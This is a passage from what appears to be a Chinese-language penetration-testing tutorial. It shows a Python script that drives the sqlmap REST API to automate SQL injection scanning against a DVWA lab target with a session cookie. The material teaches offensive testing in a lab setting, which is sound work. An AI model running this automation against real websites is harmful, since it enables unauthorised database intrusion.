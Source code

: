 ![](assets/27bda66f-8f89-4d47-ad03-0d193be91bce.png)

*   检查创建的扫描的`status`以发现 SQL 注入，如下所示：

![](assets/24549a86-71b3-4da7-8e2f-1caa74dbe25c.png)

![](assets/98393f6a-9bef-47ce-975d-5da6438fb606.png)

![](assets/0c836bba-b17f-4ae6-bb41-f625705ee784.png)

前面的屏幕截图验证了后端数据库是 MySQL，并且参数 ID 易受 SQL 注入攻击。

让我们在 Python 脚本的帮助下自动化整个过程，如下所示。将脚本命名为`sql_automate.py`：

```
import requests
import json
import time
import pprint

class SqliAutomate():

 def __init__(self,url,other_params={}):
 self.url=url
 self.other=other_params 

 def start_polling(self,task_id):
 try:
 time.sleep(30)
 poll_resp=requests.get("http://127.0.0.1:8775/scan/"+task_id+"/log")
 pp = pprint.PrettyPrinter(indent=4)
 #print(poll_resp.json())
 pp.pprint(poll_resp.json())
 except Exception as ex:
 print("Exception caught : " +str(ex))

 def start(self):
 try: 
 task_resp=requests.get("http://127.0.0.1:8775/task/new")
 data=task_resp.json()
 if data.get("success","") ==True:
 task_id=data.get("taskid")
 print("Task id : "+str(task_id))
 data_={'url':self.url}
 data_.update(self.other)
 opt_resp=requests.post("http://127.0.0.1:8775/option/"+task_id+"/set",json=data_)
 if opt_resp.json().get("success")==True:
 start_resp=requests.post("http://127.0.0.1:8775/scan/"+task_id+"/start",json=data_)
 if start_resp.json().get("success")==True:
 print("Scan Started successfully .Now polling\n")
 self.start_polling(task_id)
 except Exception as ex:
 print("Exception : "+str(ex))

other={'cookie':'PHPSESSID=7brq7o2qf68hk94tan3f14atg4;security=low'}
obj=SqliAutomate('http://192.168.250.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit',other)
obj.start()

```
